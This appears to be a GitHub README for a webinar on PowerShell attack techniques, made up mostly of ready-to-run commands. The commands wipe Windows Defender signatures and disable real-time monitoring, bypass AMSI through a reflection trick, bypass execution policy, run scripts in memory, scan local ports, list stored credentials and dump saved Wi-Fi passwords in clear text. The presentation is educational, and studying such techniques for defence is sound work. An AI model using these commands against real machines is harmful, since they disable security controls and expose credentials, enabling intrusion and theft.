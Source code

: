 # PowerShell Attacks Webinar

Click below to watch the full webinar:

[![Watch the full webinar](https://img.shields.io/badge/Watch_Webinar-blue?style=for-the-badge&logo=youtube)](https://youtu.be/yt7RBrENCq4?si=42X_-2E88vJvU40v)

---



## 1. Bypassing Windows Defender
Windows Defender is going to raise the first alarm. Disabling it is not an
option. </br>
A PowerShell script can <b>delete all signatures</b> in Defender making it
impossible for Defender to compare inbound malicious entities and raise the
alerts.
```powershell
& "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
Set-MpPreference -DisableRealtimeMonitoring $true
```
![Screenshot of disabling Windows Defender](./images/screenshot1.png)
---
## 2. system and network information
This script retrieves all properties of the operating system & network interface configurations
```powershell
Get-WmiObject -Class Win32_OperatingSystem | Select-Object -Property *
Get-NetIPConfiguration
```
![Screenshot of Get-WmiObject command](./images/screenshot2.png)
![Screenshot of Network Interface Info](./images/screenshot3.png)
---
## 3. List all the processes running on the system
This script retrieves running processes and sorts them by CPU usage in descending order.
```powershell
Get-Process | Select-Object -Property ProcessName, Id, CPU | Sort-Object -Property CPU -Descending
```
![Screenshot of Get-Process command](./images/screenshot4.png)
---
## 4. The attacker might want to scan for open ports
This script first retrieves all active TCP connections, showing their state, local address, port, and owning process.
It then will scan 1 to 1024 open ports to check for vulnerabilities that the attacker can exploit.
```powershell
Get-NetTCPConnection | Select-Object -Property State, LocalAddress, LocalPort, OwningProcess

1..1024 | ForEach-Object {
   $sock = New-Object System.Net.Sockets.TcpClient
   $async = $sock.BeginConnect('localhost', $_, $null, $null)
   $wait = $async.AsyncWaitHandle.WaitOne(100, $false)
   if($sock.Connected) {
       Write-Host "$_"
   }
   $sock.Close()
}
```
## 5.  Bypassing AMSI (Antimalware Scan Interface) to execute malicious scripts
The attacker might want to evade built-in PowerShell defenses before running scripts using the below command:

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed', 'NonPublic, Static').SetValue($null, $true)
```
![Screenshot of Bypassing AMSI Script](./images/screenshot6_1.png)
![Screenshot of Bypassing AMSI Script](./images/screenshot6_2.png)
---
## 6. Bypassing execution policy to run unsigned scripts
What is [PowerShell Gallery](https://www.powershellgallery.com/)? </br>
The following command temporarily bypasses the script execution policy to run a PowerShell script, allowing execution of unsigned scripts.
```powershell
Set-ExecutionPolicy Bypass -Scope Process; .\script.ps1
```
---
## 7. Bypass Execution Policy Temporarily
The command temporarily changes the script execution policy to allow the
running of unauthorized scripts, then reverts it back to its original state.
```powershell
$policy = Get-ExecutionPolicy;
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process;
# Scriptofyourchoice;
Set-ExecutionPolicy -ExecutionPolicy $policy -Scope Process
```
---
## 8. Execute PowerShell Script from Memory
The attacker might want to run the entire PS script in memory without writing to the hard drive.
```powershell
# Read the content of the script from the file in memory
$code = [System.IO.File]::ReadAllText('C:\temp\script1.ps1')
# Execute the PowerShell script in memory
Invoke-Expression $code
```
---
## 9. Retrieving Stored Credentials
This command lists all stored credentials.
```powershell
cmdkey /list
```
![Screenshot of List Stored Credentials](./images/screenshot8.png)
---
## 10. Extract Wi-Fi Profile Names and Passwords
This script extracts Wi-Fi profile names and passwords stored on the computer.
```powershell
netsh wlan show profiles |
Select-String -Pattern 'All User Profile' |
ForEach-Object {
   $profileName = ($_ -replace 'All User Profile\s*:\s*','').Trim()
   netsh wlan show profile name="$profileName" key=clear
}
```
![Screenshot of Extract Wi-Fi Profile Names and Passwords](./images/screenshot10.png)

---

## 11. Bonus for Professionals
Watch an advanced attack demonstrated by a pro hacker:
[Watch the video here](https://youtu.be/qehMT4ZXEWo)

![GPO Attack](./images/gpo.PNG)

---



